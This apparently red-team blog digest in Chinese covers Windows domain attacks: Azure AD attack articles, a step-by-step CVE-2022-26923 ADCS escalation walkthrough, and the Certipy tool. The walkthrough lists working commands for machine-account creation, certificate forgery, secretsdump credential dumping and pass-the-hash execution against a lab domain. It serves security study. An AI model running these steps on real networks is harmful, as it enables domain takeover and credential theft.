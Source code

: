 ```yaml
---
title: 蓝军技术推送-windows域专题(Azure、ADCS)
tags: [windows]
categories: 蓝军推送
date: 2022-05-13 15:41:27
---
```


windows域无疑是microsoft公司的一个伟大的产品。windows 域是微软为了方便日常管理和安全边界划分，从而提出的一种概念。在windows域中，所有的用户账户、计算机、打印机都会注册到一个或多个域控（中央计算机集群的中央数据库）中。域控会根据不同用户基于组来对域中的资源分配不同的访问权限。并从windows server 2000开始，通过Active Directory组件来负责对域控中的用户管理中央数据库进行维护，windows Active Directory的前生是微软的NOS（Network Operating System）。而第一个NOS是在1990年随着windows NT 3.0一起发布，直到1997年才以Active Directory的身份首次发布，因此AD的最早可以追溯到1990年。
关于Windows域历史的更多细节可以看：https://www.oreilly.com/library/view/active-directory-4th/9780596155179/ch01.html
因为windows域中有域控这种中央集权系统，它往往会是入侵者的主要目标，也是防守者的重点保护目标。在企业中，直接控制域控的难度较大，并因为Windows域的复杂性，在实战中，通常需要通过windows域内的其他组件和服务来获取权限。在Windows域渗透中，除了常常关注的一些安全相关的漏洞外，还有哪些域内的正常功能呢？哪些功能又能被我们利用呢？本专题将通过网上一些优质的文章、漏洞来了解一些windows域中的其它功能。

## [文章推荐] Attacking Azure,Azure AD,and Introducing PowerZure

**文章看点**：Azure是微软的一个在线服务平台，此平台最初仅提供PaaS（平台即服务），后又发展成为，IaaS（基础架构即服务）和SaaS（软件即服务）。在企业中，主要方便企业人员使用包括微软office 365在内的一些微软功能。为了使用这些功能，企业运维人员需要通过将Azure和本地的AD连接，使包括office 365的微软功能能进行身份认证。

此文章结合XPN、Dirk-jan等前人的研究，总结了Azure的相关功能，及利用方法。

**推送亮点**：微软Azure在许多企业中都有出现，在渗透中，也曾因为对其相关功能不了解导致权限的丢失，此文章详细介绍了微软Azure的相关攻击面。同时，Azure也是能直接攻击域控的一种方式，目前已经将此方法同步至github。

**原文链接**：https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a

**其他Azure相关链接**：https://blog.xpnsec.com/azuread-connect-for-redteam/

https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf

## [漏洞播报] CVE-2022-26923（ADCS域提权漏洞）
**漏洞概述**：ADCS服务在windows域中，充当Microsoft的公钥基础结构PKI实现，主要提供windows证书相关的功能，包括证书的注册、分发、管理等功能。并且在windows域中，也能通过证书来进行kerebros认证。

此漏洞受Nopac利用思路的影响，将Nopac中Kerberos认证相关的问题，转向证书认证相关的问题。此漏洞通过将机器账户dNSHostName属性的值修改成与域控一样的方法，来获取域控的机器账户hash，从而获取域控的DCSync权限（目前已经将此方法同步至github）

**漏洞复现**：
1、创建机器账号
```bash
python3 addcomputer.py 'qwe.local/user:Qweqwe123' -method LDAPS -computer-name 'USERPC' -computer-pass 'Qweqwe123'
```
![](https://wiki-oss.s3.cn-north-1.jdcloud-oss.com/2022/10/c885109136a55355294529f9fd7275c4.png)
2、查看新建机器账号属性

利用LDAP browser工具，以普通域账号登录，查看新建USERPC$的账号属性。
![](https://wiki-oss.s3.cn-north-1.jdcloud-oss.com/2022/10/8f6440974a2d205f0e44603aa26e898f.png)

3、删除域控所识别的SPN
![](https://wiki-oss.s3.cn-north-1.jdcloud-oss.com/2022/10/96757f0e60fbdc5cf6a54923bfedc232.png)
4、伪造域控机器名

在Domain Controllers组中查看域控机器名，并修改新建用户的dNSHostName为域控机器名。
![](https://wiki-oss.s3.cn-north-1.jdcloud-oss.com/2022/10/ece1492aa061c473cb63a987e07dd17f.png)

5、使用机器账号模版申请新证书
```bash
certipy req 'qwe.local/USERPC$:Qweqwe123@SUGERAEA9.qwe.local' -ca CA -template Machine
```
![](https://wiki-oss.s3.cn-north-1.jdcloud-oss.com/2022/10/8e6e32c026e5e10786cf048577858088.png)
6、利用新证书通过Kerberos 的 PKINIT 协议扩展获取用户hash
```bash
certipy auth -pfx suger0bfa.pfx
```
![](https://wiki-oss.s3.cn-north-1.jdcloud-oss.com/2022/10/44cdde36d092e61f8b6a24b04b4640fe.png)
7、利用DC机器用户hash dump域管hash
```bash
python3 secretsdump.py qwe.local/suger0bfa\$@SUGER0BFA.qwe.local -hashes 0:693d3438cf76c79eafd1ee5c2dfa0e77 -just-dc-user administrator
```
![](https://wiki-oss.s3.cn-north-1.jdcloud-oss.com/2022/10/469dae4201a85af6c8daaf4f82598638.png)
成功获取DC权限
```bash
python3 wmiexec.py qwe.local/administrator@SUGER0BFA.qwe.local whoami -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24
```
![](https://wiki-oss.s3.cn-north-1.jdcloud-oss.com/2022/10/256f490c1244dd821814e5f3b1c2cae2.png)
**漏洞链接**：https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
**其他ADCS相关链接**：https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf

https://posts.specterops.io/certified-pre-owned-d95910965cd2

## [安全工具] Certity
**功能描述**：windows ADCS滥用利用工具，通过此工具，可以结合impacket，在linux下对ADCS进行相关攻击。

**推送亮点**：ADCS漏洞学习工具，相比于windows端的工具，python类的windows工具对漏洞利用原理会更加深刻（无法调用win32 api）。此攻击也是adcs域提权漏洞利用的主要工具。

**工具链接**：https://github.com/ly4k/Certipy